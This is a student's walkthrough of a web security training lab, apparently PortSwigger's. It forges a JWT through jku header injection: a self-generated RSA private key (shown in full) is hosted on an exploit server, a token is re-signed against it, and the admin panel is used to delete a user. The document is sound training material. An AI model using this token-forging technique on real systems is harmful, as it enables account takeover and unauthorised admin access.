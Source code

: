# Lab: JWT authentication bypass via jku header injection
- This lab uses a JWT-based mechanism for handling sessions. The server supports the jku parameter in the JWT header. 
- However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.
- To solve the lab, forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos.
- You can log in to your own account using the following credentials: wiener:peter

# My Solution
- Login to your account with burp on
- Navigate to burp JWT editor and create a new RSA key
- Copy the generated key and paste it to the body of the exploit server
```json
{
    "keys": [
        {
            "p": "9eXvK0K6iIj-RrxW9mnNOdx3lt4Jr_wsSjD-iEXrLPLkWpYoCjfc3Hd6Bkd9ZM73vguEoPAnGqPBJRbbS3lbcMy7jxzxtKFFTUJgXhpD0BVwu1xaggF4-T3BuMo4IP5XxNJwudX2on7owx1k-xuxsyeDnzCzAIQBNXHijqieEG0",
            "kty": "RSA",
            "q": "7yRl-q6TQsL1qLiIFQVEc7-Yg1RulNAYJDtiwnL_TPz0wbYWG_5TiNSmFi3GabN-H-d3dv3_eK8ivXJiL5ZqHQVUz-CAYgtVBV3gyElOf7Wle26DIEUcC9nlv2f1LIUapKZxL9hOgWrozInaehwWxrJu3PZrtU5LHqEZxmq4xqs",
            "d": "TH7_rsGXJ6NewrjdjpKNUCBCWSWzHZTGCyLOPKqOLACleKjCT4ut5F_uzqaUqGMsEvNVr3O14--2Dhj6qUhmZPOGvlpogXn6nLIxmWGtW8zSQwnVRH01g6IrDLBf89BZ0lFygIBXeJCG52G9xF6uuG7tzZL4XHbT2IKdVkoGN4wFkEE4LCiq4evUyG3Oq4cmIRQ6WksvV8Zpx7ZObYmefH7Jgqcza_xmzdz3yc1uhM3mY9_nMDX2SLRuoxCwHurE73N7IpAB72ByPyxfmxSpZQBpUIdkX9E2ajTfH0-JDEsI68mqBazylIgzkhfDzxC2QWb_WLRp9vDIm60E00V1uQ",
            "e": "AQAB",
            "kid": "f8213812-8452-4c37-bae2-de45afd4c739",
            "qi": "r78iilz6DLpDbfjIYF1TPezKt6QidFeJ-ynT7Ly7Kyh1wdTODa8bs8EAKSIaZTTRLYGNuML7EIzRwMFH_Krj25_i9X10sLThN64wwzUbowk90ZChySwrR9vCqVwdy0yynq26mTHvUfuDfJkydhbdYATGznN-5eby110cVG3ZSGQ",
            "dp": "7lSOGz_xy6P70FN7dhnV797fijpq6UdhJgeWrD4YUtiYu7QN2tmKF6U1gCCKSMrRFEHVqqcZP5i3-1rL8bsOBaZpo6xKGOi2YsuS26JZV7VwLii1EIyc0_YnbROSk2fxabMNzxCym4ylzXcQCNIuyZXi3Mg2tqk7ArH_BIYprYE",
            "dq": "n0UeplaevVgbRMOh3l4juPNiIBWbkIEHkxn6LIdqgVv3pwwerYY1HGyEMUFLZBqnZZhDeHyyKS57dLE5s3f6NFnYoppi5umlNm3Px5ULMwNHs21m55cflsUIvvH92CjOFdrEh5kIsCkD4zXszGboxG0SaRe1pIsAfOXOxNdPOQE",
            "n": "5bSgk4b45P4jwMvRZzXrgSZ9mCVlsxNWe1XvmIG3bGFHmfphkinMRdYdkMuqdIVBIuOKIEXgrXokFAXfrRVtIw8dr7ZTBW-_5L_snhuAxh2_RigAcxLZgFqhpRacT8_tc5ZZSR70Su3ZFHPPCqrj_axkyYZW0P1dTT7JgLnBx-U9i0A3PI8_BEsAUKswX-CD3czWduUvqRxSiBwoq1Vhe10syH3jn-IM_-FCb6AfeHW9gJO2PzdXzbVMdfjdRPznkRwkjabgvufT9u6qEk_AW-YjSQnRg3dJtEKlKG_0eLcae4dMhNcteoljw6w819ctUQ2f3byBbeClD6lr0qFGzw"
        }  
    ]
}
```
- Change the link of the exploit server to  https://exploit-0a3f008c0355bf8a8027deb601ee00a4.exploit-server.net/jwks.json
- Send a request containing jwt to repeater
- Change the enpoint to /admin and move to jwt-editor
- Replace the KID with the one from the exploit server
- Sign the the request 
- And send the requst
- Delete carlos to solve the lab
